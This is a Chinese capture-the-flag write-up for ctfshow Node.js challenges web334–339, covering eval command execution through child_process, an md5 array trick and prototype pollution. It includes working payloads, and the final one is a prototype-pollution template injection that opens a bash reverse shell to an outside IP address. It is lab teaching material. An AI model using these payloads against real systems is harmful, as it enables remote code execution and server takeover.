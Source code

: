 ## 写在前面

开始nodejs系列

之前一直不太清楚什么是nodejs，觉得是一种新的语言，官方解释如下

>简单的说 Node.js 就是运行在服务端的 JavaScript。
>
>Node.js 是一个基于Chrome JavaScript 运行时建立的一个平台。
>
>Node.js是一个事件驱动I/O服务端JavaScript环境，基于Google的V8引擎，V8引擎执行Javascript的速度非常快，性能非常好。

——KonDream 2022年2月16日14:47:48

## web334

题目打开后是个登录界面，附件给出了源码

```js
// user.js
module.exports = {
  items: [
    {username: 'CTFSHOW', password: '123456'}
  ]
};
```

```js
// login.js
var express = require('express');
var router = express.Router();
var users = require('../modules/user').items;
 
var findUser = function(name, password){
  return users.find(function(item){
    return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
  });
};

/* GET home page. */
router.post('/', function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var sess = req.session;
  var user = findUser(req.body.username, req.body.password);
 
  if(user){
    req.session.regenerate(function(err) {
      if(err){
        return res.json({ret_code: 2, ret_msg: '登录失败'});        
      }
       
      req.session.loginUser = user.username;
      res.json({ret_code: 0, ret_msg: '登录成功',ret_flag:flag});              
    });
  }else{
    res.json({ret_code: 1, ret_msg: '账号或密码错误'});
  }  
  
});

module.exports = router;
```

重点就在第8行

```js
return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
```

要使其返回true，那么就很明显，用户名为ctfshow，密码为123456，登录即可拿到flag

## web335(同步执行)

提示一个eval，应该是命令执行，但是在nodejs中如何执行系统命令呢

在熟悉的php中，执行系统命令需要system函数，而在nodejs中，需要引用`child_process`模块

>Nodejs基于事件驱动来处理并发，本身是单线程模式运行的。Nodejs通过使用child_process模块来生成多个子进程来处理其他事物。主要包括4个异步进程函数(spawn,exec,execFile,fork)和3个同步进程函数(spawnSync,execFileSync,execSync)。以异步函数中spawn是最基本的创建子进程的函数，其他三个异步函数都是对spawn不同程度的封装。spawn只能运行指定的程序，参数需要在列表中给出，而exec可以直接运行复杂的命令。

payload：**?eval=require('child_process').execSync('tac fl00g.txt')**

或者 **?eval=require('child_process').spawnSync('tac',['fl00g.txt']).stdout.toString()**

这里我去了解了一下同步和异步的区别

![image-20220216161328877](image/ctfshow-nodejs(334-344)/image-20220216161328877.png)

exec同步执行下返回一个buffer，并通过返回的buffer去识别完成状态

![image-20220216161551112](image/ctfshow-nodejs(334-344)/image-20220216161551112.png)

spawn方法异步衍生子进程，不会阻塞 Node.js 事件循环。 spawnSync()函数以同步方式提供等效的功能，其会阻塞事件循环，直到衍生的进程退出或终止

看看官方说法

>为方便起见，`child_process` 模块提供了一些同步和异步方法替代 [`child_process.spawn()`](http://nodejs.cn/api/child_process.html#child_processspawncommand-args-options) 和 [`child_process.spawnSync()`](http://nodejs.cn/api/child_process.html#child_processspawnsynccommand-args-options)。 这些替代方法中的每一个都是基于 [`child_process.spawn()`](http://nodejs.cn/api/child_process.html#child_processspawncommand-args-options) 或 [`child_process.spawnSync()`](http://nodejs.cn/api/child_process.html#child_processspawnsynccommand-args-options) 实现。
>
>- [`child_process.exec()`](http://nodejs.cn/api/child_process.html#child_processexeccommand-options-callback): 衍生 shell 并在该 shell 中运行命令，完成后将 `stdout` 和 `stderr` 传给回调函数。
>- [`child_process.execFile()`](http://nodejs.cn/api/child_process.html#child_processexecfilefile-args-options-callback): 与 [`child_process.exec()`](http://nodejs.cn/api/child_process.html#child_processexeccommand-options-callback) 类似，不同之处在于，默认情况下，它直接衍生命令，而不先衍生 shell。
>- [`child_process.fork()`](http://nodejs.cn/api/child_process.html#child_processforkmodulepath-args-options): 衍生新的 Node.js 进程并使用建立的 IPC 通信通道（其允许在父子进程之间发送消息）调用指定的模块。
>- [`child_process.execSync()`](http://nodejs.cn/api/child_process.html#child_processexecsynccommand-options): [`child_process.exec()`](http://nodejs.cn/api/child_process.html#child_processexeccommand-options-callback) 的同步版本，其将阻塞 Node.js 事件循环。
>- [`child_process.execFileSync()`](http://nodejs.cn/api/child_process.html#child_processexecfilesyncfile-args-options): [`child_process.execFile()`](http://nodejs.cn/api/child_process.html#child_processexecfilefile-args-options-callback) 的同步版本，其将阻塞 Node.js 事件循环。
>
>对于某些情况，例如自动化 shell 脚本，[同步的方法](http://nodejs.cn/api/child_process.html#synchronous-process-creation)可能更方便。 但是，在许多情况下，由于在衍生的进程完成前会停止事件循环，同步方法会对性能产生重大影响。

所以这里采用同步执行的原因是为了看到结果，阻塞事件，采用异步的话就没那么直观了

![image-20220216165446553](image/ctfshow-nodejs(334-344)/image-20220216165446553.png)

从结果中也可以很明显看到同步的执行结果，对于stdout执行16进制转asii即可(toString)

## web336

在上一题的基础上过滤了exec

payload：**?eval=require('child_process').spawnSync('cat', ['fl001g.txt']).stdout.toString()**

## web337

nodejs的md5

payload：**?a[]=1&b[]=1**

举个例子：

```js
var crypto = require('crypto');

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}
var a = [1]; //{'0':'1'}
var b = [1];
var flag='xxxxxxx';

console.log(a!==b);	// true

  if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
  	console.log('yes');
  }else{
  	console.log('no');
  }
```

最后执行结果是yes，可能会疑问不是限制了a≠b吗，我理解是这里比较的是对象，下个md5又取的是值，所以满足了判断，后面有个大赛原题和这个类似。

## web338(原型链污染)

```js
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');

/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
  
});

module.exports = router;
```

关键代码在第13行，可是我们发现secert对象并没有ctfshow这个属性，默认是返回null的，那么想要满足判断就要利用原型链污染：prototype

payload：**``{"__proto__":{"ctfshow":"36dboy"}}``**

![image-20220216180533931](image/ctfshow-nodejs(334-344)/image-20220216180533931.png)

简单来说，`__proto__`指向的是实例的`prototype`。那么，如果我修改了`__proto__`中的值，就可以修改任意Object类的实例。

那就意味着如果攻击者控制并修改了一个对象的原型，那么就会影响所有和这个对象来自同一个类、父祖类的对象。这种攻击方式就是**原型链污染**。

详细说明推荐p神文章：[深入理解 JavaScript Prototype 污染攻击](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html#0x02-javascript)

## web339

![image-20220217000107791](image/ctfshow-nodejs(334-344)/image-20220217000107791.png)

![image-20220217000003236](image/ctfshow-nodejs(334-344)/image-20220217000003236.png)



``{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/42.193.107.62/9999 0>&1\"');var __tmp2"}}``



